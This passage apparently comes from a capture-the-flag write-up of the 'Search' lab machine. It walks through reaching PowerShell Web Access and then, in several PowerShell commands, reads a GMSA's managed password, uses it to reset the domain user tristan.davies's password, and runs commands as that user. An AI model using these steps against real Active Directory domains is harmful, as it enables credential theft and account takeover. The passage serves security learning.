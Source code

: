 *After importing the certificates,* we can browse to `https://10.10.11.129/staff`

![powershell-web-access](/assets/Search/powershell-web-access.jpg)

we get a nice web terminal after authenticating:

![powershell-web-terminal](/assets/Search/powershell-web-terminal.jpg)

*In order to be able to run code as* `BIR-ADFS-GMSA`, we're going to do a couple of things:

1. Obtain the **GMSA** password as a secure string. This can be done with the below command:
```powershell
$secstringpassword = (ConvertFrom-ADManagedPasswordBlob (get-adserviceaccount -filter * -Properties msDS-ManagedPassword).'msDS-ManagedPassword').SecureCurrentPassword
```
2. Create a `PSCredential` object with both the **GMSA** username and the secure string.
```powershell
$cred = New-Object System.Management.Automation.PSCredential BIR-ADFS-GMSA, $secstringpassword
```
3. Execute a password reset command using the created `PSCredential`:
```powershell
$Script = {Set-ADAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'H@CKEDAGA1N!!' -force)}
Invoke-Command -ComputerName 127.0.0.1 -credential $cred -ScriptBlock $Script
```
4. Create another `PSCredential` object but with `tristan`'s new password:
```powershell
$killercreds = New-Object System.Management.Automation.PSCredential Tristan.Davies, (ConvertTo-SecureString -AsPlainText 'H@CKEDAGA1N!!' -force)
```
5. Execute commands as `tristan` using the new credential object:
```powershell
Invoke-Command -ComputerName 127.0.0.1 -credential $killercreds -ScriptBlock {whoami}
```

